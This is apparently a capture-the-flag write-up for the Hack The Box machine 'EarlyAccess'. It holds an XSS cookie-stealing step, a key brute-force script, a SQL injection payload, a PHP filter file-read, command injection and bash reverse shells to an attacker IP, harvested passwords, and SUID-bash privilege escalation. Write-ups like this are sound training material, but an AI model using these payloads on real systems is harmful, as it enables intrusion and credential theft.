




```
Nmap scan report for earlyaccess.htb (10.129.226.95)
Host is up (0.036s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.38
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
Service Info: Host: 172.18.0.102; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

You can register a new user on that page on 443.
We can read in the forum there but have no access to the game.
In the Forum you can find some hints about problems with the username displayed on the scoreboard.
You can't register with special characters in your input but you can change your username at your profile page to anything you want.

After trying different XSS payloads we got a hit using:
```html

```
as username. 

As soon as we write a message at the "ContactUs" page we can receive the cookie of the admin:


Mind the use of `ncat --ssl`. It is essential to use the --ssl option of the ncat from nmap to get output in cleartext.
Now we can save those cookies in our browser to get authenticated as admin.

At the admin panel we can download the [validate.py](validate.py).
Reverse Engineering the python code we can limit our possibilities for a beta key.
The valid- and checksum-functions are telling us that the key has to look something like:
```
KEY12-1K1H1-XP???-GAMD2-????
```
So there are just 3 characters unknown and the checksum has to be calculated for each possibile variant as the `magic_num` is synced with the API and does affect those 3 missing characters.
As we have no access to that API we need to bruteforce the keys through the "Verify a game-key" until we get a valid one. There for we use the verification page of the admin as there is no limit.
We wrote a small script to do that: 
```python
#!/usr/bin/env python3

import requests
import urllib3

urllib3.disable_warnings()

cookies = {'XSRF-TOKEN':'eyJpdiI6Ik1IdlV4T1g1NTRjMWxFNEg2M1NBVnc9PSIsInZhbHVlIjoicTV4RzRSUHVETzllMW8xeGg2RllDWjM0N0tzRlFIbWtsY1RSdGxSYkJSQ3ZMSnhPMkF1dnA0aVpIR3JKTzF4VnYzeEJ0VGkxUEpSMXp5NWdyNWV5YnB1SDNkR1BEQVNHL0RSdkVySnZpTkhiYU9odXpqSFlUMXR6U3Niakp1ZjgiLCJtYWMiOiIxNTE2MDdkMGIwMGQwNjdmMmM1NTdiYmNkMzFkNzhlZDQyMTQyNmRmMjJiNjk0OTY1YmUxZTlmMWUwMjRlOTA3In0%3D','earlyaccess_session':'eyJpdiI6IkdPRklSaXVaeXkya0VqMEdua3NzSHc9PSIsInZhbHVlIjoianliRHplL3pmTTVPSXdNbUU2VzNMYUpxaXV2TFNFSWpOd1RORUFhOVRIbXYrdVB4QSszb2ZUNkVjb2x4TythVU5tZUUwYlExcTNtRGR4L3ZhME5PV09PQVAzRGhVQzByYmtGWFpOZXhwS1dYWDlrTkthMjFKTGN4cGdtSm1ZWUQiLCJtYWMiOiJkYjQ2NDg1M2UzYTUyZjM0YzEyZTVkOTAyN2ZhYmU4OGZlMzAwMWY5ZWY1NTI0MjIwZjJlZTMxMzE0NzI0ODE5In0%3D'}

alpha = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
num = "0123456789"


def calc_cs(input) -> int:
        gs = input.split('-')[:-1]
        return sum([sum(bytearray(g.encode())) for g in gs])


key = ""

def keygen():
    for i in alpha:
        for j in alpha:
            for k in num:
                key = r"KEY12-1K1H1-XP{}{}{}-GAMD2-".format(i,j,k)
                final_key = (key + str(calc_cs(key)))
                r=requests.post('https://earlyaccess.htb/key/verify', data = {'_token':'KRVUPImVkqipKTC3u4cFxkrdklwYxDvfh5fAkNHo', 'key':final_key}, cookies=cookies, verify=False)
                print(final_key + ' ' + str(len(r.text)).replace("13039","invalid"))

keygen()
```
Don't forget to set the cookies and the token. You can get the token from the verifications input form.
After some time you will find a valid key. This key can be used to get access to the game page with an user.

Playing the game you'll get your username on the scoreboard. As said in the forum this is our entrypoint for some injections.
Fuzzing around with our username we found that there is a SQL Injection using `UNION SELECT` with 3 coloumns possible.
```
test') OR 1=1 UNION SELECT 1,email,password FROM users-- -
```
This gives us the password hashes and corresponding usernames.

Searching for the hash of the admin we got a hit online: `gameover`.
Now we can log in as admin with a password instead of stolen cookies.

At the dev page we have hashing functionalities and file-tools whose "UI is not implemented yet".

Since the hashing something uses a file called `hash.php` we just assumed that `file.php` is propably the filename for the file-tools. We then found out with FFUF the parameter to request a file to be `filepath`. We could then include the `hash.php` with this payload: `file.php?filepath=php://filter/convert.base64-encode/resource=hash.php`
Lookint at [the hash.php](hash.php) we crafted a request for that hashing functionality to get a shell:
```
POST /actions/hash.php HTTP/1.1
Host: dev.earlyaccess.htb
Content-Length: 100
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dev.earlyaccess.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://dev.earlyaccess.htb/home.php?tool=hashing
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=63ef3f828983249ba5f75d9281f96e87
Connection: close

action=verify&password=nc -e /bin/sh 10.10.14.113 1234&hash=whatever&hash_function=exec&debug=True
```

## User

Inside the `/etc/passwd` we can see that there is another user called `www-adm`.
We can switch to that user by `su www-adm` and pw `gameover`.
In the home directory of www-adm we find a `.wgetrc`:
```
cat .wgetrc
user=api
password=s3CuR3_API_PW!
```

Running Linpeas we find some networking stuff:
```s
webserver                                                                                                                                                           
127.0.0.1       localhost
::1     		localhost ip6-localhost ip6-loopback
fe00::0 		ip6-localnet
ff00::0 		ip6-mcastprefix
ff02::1 		ip6-allnodes
ff02::2 		ip6-allrouters
172.18.0.102    webserver
nameserver 		127.0.0.11
options ndots:0
                                     
╔══════════╣ Interfaces
default         0.0.0.0                                                                                                                                             
loopback        127.0.0.0
link-local      169.254.0.0


╔══════════╣ Networks and neighbours
Iface   Destination     Gateway         Flags   RefCnt  Use     Metric  Mask            MTU     Window  IRTT                                                        
eth0    00000000        010012AC        0003    0       0       0       00000000        0       0       0                                                                               
eth0    000012AC        00000000        0001    0       0       0       0000FFFF        0       0       0                                                                               
IP address       HW type     Flags       HW address            Mask     Device
172.18.0.101     0x1         0x2         02:42:ac:12:00:65     *        eth0
172.18.0.2       0x1         0x2         02:42:ac:12:00:02     *        eth0
172.18.0.1       0x1         0x2         02:42:a6:35:c1:d3     *        eth0
172.18.0.100     0x1         0x2         02:42:ac:12:00:64     *        eth0
```
Let's have a look at that `172.18.0.101` with nc:
```
nc -z -v 172.18.0.101 1-10000 2&>out
cat out
api.app_nw [172.18.0.101] 5000 (?) open
```
Now have a look at that host:
```
wget http://api.app_nw:5000/
ls
1
index.html
out
cat index.html
{"message":"Welcome to the game-key verification API! You can verify your keys via: /verify/<game-key>. If you are using manual verification, you have to synchronize the magic_num here. Admin users can verify the database using /check_db.","status":200}
wget http://api.app_nw:5000/check_db
ls
check_db
index.html
out
cat check_db
{"message":{
[...] 
	"Env":["MYSQL_DATABASE=db","MYSQL_USER=drew","MYSQL_PASSWORD=drew","MYSQL_ROOT_PASSWORD=XeoNu86JTznxMCQuGHrGutF3Csq5","SERVICE_TAGS=dev","SERVICE_NAME=mysql","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.12","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.25-1debian10"],"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},
[...]
alive\n","Start":"2021-09-27T21:02:19.708703604+02:00"},{"End":"2021-09-27T21:02:24.901405098+02:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2021-09-27T21:02:24.816004481+02:00"}],"Status":"healthy"},"OOMKilled":false,"Paused":false,"Pid":1006,"Restarting":false,"Running":true,"StartedAt":"2021-09-27T17:39:30.244314333Z","Status":"running"}},"status":200}
```
So we found a credentials there: `drew:XeoNu86JTznxMCQuGHrGutF3Csq5`.
Finally we can have access with ssh as user drew.

## Root

Running LinPEAS again we found more networking stuff:
```s
╔══════════╣ Networks and neighbours
Kernel IP routing table                                                                                                                                                                                             
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.129.0.1      0.0.0.0         UG    0      0        0 ens160
10.129.0.0      0.0.0.0         255.255.0.0     U     0      0        0 ens160
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 docker0
172.18.0.0      0.0.0.0         255.255.0.0     U     0      0        0 br-c80b310557f4
172.19.0.0      0.0.0.0         255.255.0.0     U     0      0        0 br-41b23ce87299
IP address       HW type     Flags       HW address            Mask     Device
172.18.0.2       0x1         0x2         02:42:ac:12:00:02     *        br-c80b310557f4
172.18.0.102     0x1         0x2         02:42:ac:12:00:66     *        br-c80b310557f4
172.19.0.4       0x1         0x2         02:42:ac:13:00:04     *        br-41b23ce87299
10.129.0.1       0x1         0x2         00:50:56:b9:f8:ec     *        ens160
```

Playing around with those hosts we found out that we can use our `.ssh/id_rsa` to ssh into `game-tester@172.19.0.4` as according to the `id_rsa.pub` the keys are related to `game-tester@game-server`:
```bash
drew@earlyaccess:~/.ssh$ ssh -i id_rsa game-tester@172.19.0.4
```
Mind that the IP can change when the server crashes.
At `/usr/src/app` we can find the [server.js](server.js). We can abuse this game as following...

From the drew mashine we echo this into `/opt/docker-entrypoint.d/` as we can abuse this shared directory:
```bash
echo "/bin/bash -i > /dev/tcp/10.10.14.113/1337 0<&1 2>&1" > test.sh && chmod +x test.sh
```
then we run
```bash
curl -X POST -d "rounds=1.1" http://172.19.0.3:9999/autoplay
```
As soon as the game crashes you should get a new shell. You should hurry a bit or write a script as the files are deleted from time to time but this is how it works:


Somehow the libraries for these bash versions differ so we have to use drews bash and can't use it from the reverse shell. So we copy the `/bin/bash` from drew in `/opt/docker-entrypoint.d/`.
With our received reverse shell we are root so we can use `chown root:root ./bash` and `chmod +s ./bash` on that bash of drew. 

Then we can execute it with the -p parameter from the drew machine to become root:


